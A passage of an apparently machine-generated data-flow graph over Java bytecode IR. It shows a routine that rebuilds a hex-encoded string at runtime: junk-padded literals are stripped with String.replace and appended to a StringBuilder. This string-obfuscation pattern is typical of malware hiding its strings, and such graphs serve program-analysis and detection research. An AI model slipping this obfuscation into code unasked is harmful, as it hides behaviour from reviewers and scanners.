    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qqq097qqq37q4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qqq097qqq37q4\"";
    "push \"qqq097qqq37q4\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"jjjj6jjjj17jjj2jjjjj74\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"jjjj6jjjj17jjj2jjjjj74\"";
    "push \"jjjj6jjjj17jjj2jjjjj74\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4D6Fs64\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4D6Fs64\"";
    "push \"4D6Fs64\""->"push \"s\"";
    "push \"s\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"654OOO90OO0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"654OOO90OO0\"";
    "push \"654OOO90OO0\""->"push \"O\"";
    "push \"O\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0Ak7kk374kk\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0Ak7kk374kk\"";
    "push \"k\""
    "push \"0Ak7kk374kk\""->"push \"k\"";
    "push \"k\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A6AAAAA1727AAAAAAAA4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A6AAAAA1727AAAAAAAA4\"";
    "push \"A6AAAAA1727AAAAAAAA4\""->"push \"A\"";
    "push \"A\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4ppD6F6pE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4ppD6F6pE\"";
    "push \"4ppD6F6pE\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7ffff468ff49ff\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7ffff468ff49ff\"";
    "push \"7ffff468ff49ff\""->"push \"f\"";
    "push \"f\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"00::097::3:\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"00::097::3:\"";
    "push \"00::097::3:\""->"push \":\"";
    "push \":\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"746001007000002\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"746001007000002\"";
    "push \"746001007000002\""->"push \"0\"";
    "push \"0\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"74JJ5JJJ469\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"74JJ5JJJ469\"";
    "push \"74JJ5JJJ469\""->"push \"J\"";
    "push \"J\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6```D6```54``9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6```D6```54``9\"";
    "push \"6```D6```54``9\""->"push \"`\"";
    "push \"`\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"000D7S3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"000D7S3\"";
    "push \"000D7S3\""->"push \"S\"";
    "push \"S\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"74617YYY2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"74617YYY2\"";
    "push \"74617YYY2\""->"push \"Y\"";
    "push \"Y\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"___7454_6__9\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"___7454_6__9\"";
    "push \"___7454_6__9\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6D65IIIIIII4IIIIIIDIIII\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6D65IIIIIII4IIIIIIDIIII\"";
    "push \"6D65IIIIIII4IIIIIIDIIII\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"xxxx6xF646xx5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"xxxx6xF646xx5\"";
    "push \"xxxx6xF646xx5\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4G9G00G09\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4G9G00G09\"";
    "push \"4G9G00G09\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"==737===4====61\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"==737===4====61\"";
    "push \"=\""
    "push \"==737===4====61\""->"push \"=\"";
    "push \"=\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7274tt59\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7274tt59\"";
    "push \"7274tt59\""->"push \"t\"";
    "push \"t\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6561jj72\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6561jj72\"";
    "push \"6561jj72\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5A3333033333003333B\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5A3333033333003333B\"";
    "push \"5A3333033333003333B\""->"push \"3\"";
    "push \"3\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"757365\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"757365\"";
    "push \"757365\""->"push \"8\"";
    "push \"8\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"44617<<<<9<\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"44617<<<<9<\"";
    "push \"44617<<<<9<\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1116C611967\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1116C611967\"";
    "push \"1116C611967\""->"push \"1\"";
    "push \"1\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"pp6pppp8pp7pp4ppp5pppBppp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"pp6pppp8pp7pp4ppp5pppBppp\"";
    "push \"pp6pppp8pp7pp4ppp5pppBppp\""->"push \"p\"";
    "push \"p\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0QQQQ0Q0BQQ6QD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0QQQQ0Q0BQQ6QD\"";
    "push \"0QQQQ0Q0BQQ6QD\""->"push \"Q\"";
    "push \"Q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6F6E88874\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6F6E88874\"";
    "push \"6F6E88874\""->"push \"8\"";
    "push \"8\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"68__4C____65\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"68__4C____65\"";
    "push \"68__4C____65\""->"push \"_\"";
    "push \"_\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6;;E;;;6;;;;774\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6;;E;;;6;;;;774\"";
    "push \"6;;E;;;6;;;;774\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"68740xxx0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"68740xxx0\"";
    "push \"68740xxx0\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KKK02K5B4KKK2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KKK02K5B4KKK2\"";
    "push \"KKK02K5B4KKK2\""->"push \"K\"";
    "push \"K\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"799989997299999900999\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"799989997299999900999\"";
    "push \"799989997299999900999\""->"push \"9\"";
    "push \"9\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Z1ZZ26ZZZA6ZZZZ1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Z1ZZ26ZZZA6ZZZZ1\"";
    "push \"Z1ZZ26ZZZA6ZZZZ1\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7X6XXX6XXXX12E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7X6XXX6XXXX12E\"";
    "push \"7X6XXX6XXXX12E\""->"push \"X\"";
    "push \"X\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"7F5FFF74F69\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"7F5FFF74F69\"";
    "push \"7F5FFF74F69\""->"push \"F\"";
    "push \"F\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6C2E5j4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6C2E5j4\"";
    "push \"6C2E5j4\""->"push \"j\"";
    "push \"j\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"69www6wDww6www5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"69www6wDww6www5\"";
    "push \"69www6wDww6www5\""->"push \"w\"";
    "push \"w\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5zzzzAzzzz6F6zzzzzEz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5zzzzAzzzz6F6zzzzzEz\"";
    "push \"5zzzzAzzzz6F6zzzzzEz\""->"push \"z\"";
    "push \"z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"cccc6cc5ccccccc3cccc1B3cccc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"cccc6cc5ccccccc3cccc1B3cccc\"";
    "push \"cccc6cc5ccccccc3cccc1B3cccc\""->"push \"c\"";
    "push \"c\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"E9GGF5GGGG7GG7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"E9GGF5GGGG7GG7\"";
    "push \"E9GGF5GGGG7GG7\""->"push \"G\"";
    "push \"G\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"NNN44ACANNN1\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"NNN44ACANNN1\"";
    "push \"NNN44ACANNN1\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0NN2N0NNN001N\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0NN2N0NNN001N\"";
    "push \"0NN2N0NNN001N\""->"push \"N\"";
    "push \"N\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4CDDDD0DDD00DD2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4CDDDD0DDD00DD2\"";
    "push \"4CDDDD0DDD00DD2\""->"push \"D\"";
    "push \"D\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4ZZZZZ9ZZ4Z4ZZ74\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4ZZZZZ9ZZ4Z4ZZ74\"";
    "push \"4ZZZZZ9ZZ4Z4ZZ74\""->"push \"Z\"";
    "push \"Z\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0q01qq2qqqq4C\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0q01qq2qqqq4C\"";
    "push \"0q01qq2qqqq4C\""->"push \"q\"";
    "push \"q\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6iA6iiii1iii7ii6i\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6iA6iiii1iii7ii6i\"";
    "push \"6iA6iiii1iii7ii6i\""->"push \"i\"";
    "push \"i\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"65515552F6C555\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"65515552F6C555\"";
    "push \"65515552F6C555\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"<<61<<6E<<<<6<<<<7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"<<61<<6E<<<<6<<<<7\"";
    "push \"<<61<<6E<<<<6<<<<7\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2F;537;;;;4;;;;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2F;537;;;;4;;;;\"";
    "push \"2F;537;;;;4;;;;\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"72;;;;;6;;9;;6E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"72;;;;;6;;9;;6E\"";
    "push \"72;;;;;6;;9;;6E\""->"push \";\"";
    "push \";\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6IIIIIII73IIB78\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6IIIIIII73IIB78\"";
    "push \"6IIIIIII73IIB78\""->"push \"I\"";
    "push \"I\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"707eee4eee00\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"707eee4eee00\"";
    "push \"707eee4eee00\""->"push \"e\"";
    "push \"e\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
